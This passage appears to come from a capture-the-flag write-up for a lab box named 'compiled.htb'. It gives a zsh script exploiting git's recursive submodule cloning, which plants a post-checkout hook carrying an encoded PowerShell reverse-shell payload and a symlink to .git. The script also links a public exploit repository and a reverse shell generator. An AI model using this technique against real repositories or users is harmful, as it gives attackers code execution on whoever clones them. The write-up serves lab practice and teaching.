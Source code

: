 In few words we need to create 2 empty repository that match with the names the repository  and add the payload useing the [Reverse Shell Generator](https://www.revshells.com/) , the names of repo can you rename as `repo1` and `repo2` or wathever you want, just match with the script.

`git clone --recursive git@github.com:amalmurali47/git_rce.git`


```zsh
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main
rm -rf nothing
rm -rf toSeeHere
git clone http://compiled.htb:3000/test/repo1.git
 cd repo1
mkdir -p y/hooks
cat >y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell -e JABjAGw...
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..
git clone http://compiled.htb:3000/test/repo2.git
cd repo2
git submodule add --name x/y "http://compiled.htb:3000/test/repo1.git" A/modules/x
git commit -m "add-submodule"
printf ".git" >dotgit.txt
git hash-object -w --stdin <dotgit.txt >dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info
git update-index --index-info <index.info
git commit -m "add-symlink"
git push
```

![Image](/assets/img/post/compiled/image-4.png)
